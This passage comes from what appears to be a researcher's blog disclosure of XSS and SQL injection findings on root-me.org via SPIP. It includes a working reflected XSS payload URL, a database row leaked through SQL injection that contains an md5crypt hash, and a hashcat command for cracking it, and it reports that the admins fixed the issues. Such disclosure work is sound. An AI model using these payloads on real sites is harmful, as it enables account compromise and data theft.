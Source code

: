 > Honestly, I never thought I would one day pwn root-me, but hey, here we are, and I'm so frikkin' happy! :D
<img class="img_small" src="/hacking/rce_on_spip_and_root_me/happy_owl.jpg" alt="happy_owl">

# Is root-me more secure than spip itself?

## XSS wise

The `parano` is was enabled, which reduces the attack surface for XSS and escapes pretty much everything. Only a few were working on root-me. 
More information about this mode here: https://www.spip.net/en_article4948.html 

```html
https://www.root-me.org/ecrire/?exec=plan&null=lalu' onmouseover=alert(domain) style='width:9999999px;height:9999999px;' foo=
https://www.root-me.org/ecrire/?exec=plan&null=lalu%27%20onmouseover=alert(domain)%20style=%27width:9999999px;height:9999999px;%27%20foo=
```
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/xss_null_rootme.jpg" alt="xss_null_rootme">


## SQLi wise

I used one SQLi to leak information on root-me, such as my user entry in their database. I was quite perplex to learn that they were still using md5crypt, which is now considered as weak and can easily be bruteforced with hashcat or john. 

```
SELECT * FROM `spip_auteurs` WHERE email LIKE 'loukajc@gmail.com' [1]:
????CENSORED????, ????CENSORED????, , , Black Hat? Hell no! Black Cat. , , 0, , , loukajc@gmail.com, 2020-05-22 18:42:10, $1$FmHtJAcr$bkMz6D8B3P0oYCLKCXJVt., 18343, non, fr, develooper, ????CENSORED????, 2020-05-22 18:42:10, , , , , , Laluka, ThinkLoveShare, 523fc199643d2f0f0d71599bce5ebf1d732512a777ba9f8af656097445294023, , a:5:{s:7:"couleur";s:1:"9";s:7:"display";s:1:"1";s:18:"display_navigation";s:21:"navigation_sans_icone";s:14:"display_outils";s:3:"oui";s:3:"cnx";s:0:"";}, , 1comite, https://thinkloveshare.com, non
```

My password wasn’t in a wordlist, so I added it (testing purpose). And yes, I changed it. :)

Here I run `hashcat`, which is on my machine aliased to a docker alias: 

```bash
docker run --rm -it -v $(pwd):/host dockit dizcza/docker-hashcat:intel-cpu hashcat
```

<img class="img_big" src="/hacking/rce_on_spip_and_root_me/hashcat.jpg" alt="hashcat">


After discussing these issues with the admins, md5crypt has been removed. They were actually already using sha256, md5crypt being only forgotten legacy and is now gone! \
Another security feature has been added and enforced for admins: GPG 

# Timeline - DD/MM/YYY)
